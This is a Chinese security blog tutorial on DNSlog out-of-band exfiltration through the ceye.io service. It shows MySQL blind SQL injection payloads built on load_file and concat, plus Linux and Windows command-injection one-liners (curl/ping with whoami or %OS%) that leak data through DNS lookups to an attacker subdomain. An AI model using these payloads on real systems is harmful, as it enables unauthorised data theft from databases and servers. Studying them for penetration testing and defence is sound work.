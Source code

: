 ```yaml
---
title: "利用 dnslog 回显"
date: 2018-02-10T00:00:00+08:00
draft: false
tags: ['sqli','windows','linux']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


DNS 在解析的时候会留下日志, 通过读取多级域名的解析日志, 来获取信息

简单来说就是把信息放在二级域名中, 传递到自己这, 然后读取日志, 获取信息

利用 dnslog 可以回显 sql 盲注的数据、命令执行的结果等

<!--more-->

知道创宇的 dnslog 平台

`ceye.io`

登录之后 右上角 Profile

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915368.jpg)

Identifier 就是 dnslog 测试地址

访问 test.xxxx.ceye.io

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915418.jpg)

后台 dnslog 记录

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915447.jpg)

# SQL 盲注

以 mysql 为例

`load_file('\\\\xxxx.com\\')`

可以发起网络请求

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915501.jpg)

记录

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915511.jpg)

盲注

`and if((select load_file(concat('\\\\',(PAYLOAD),'.xxoo.ceye.io\\abc'))),1,1)`

因为不能直接 id=1 and select xxx 就用 if 来执行

PAYLOAD 记得写上 limit

# 命令执行

## linux

执行反引号内的内容并作为结果输出

`curl [反引号]whoami[反引号].xxxx.ceye.io`

`ping [反引号]whoami[反引号].xxxx.ceye.io`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915697.jpg)

dnslog

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915704.jpg)

## windows

感觉鸡肋啊…

`ping %OS%.xxoo.ceye.io`

`%OS% 操作系统名称`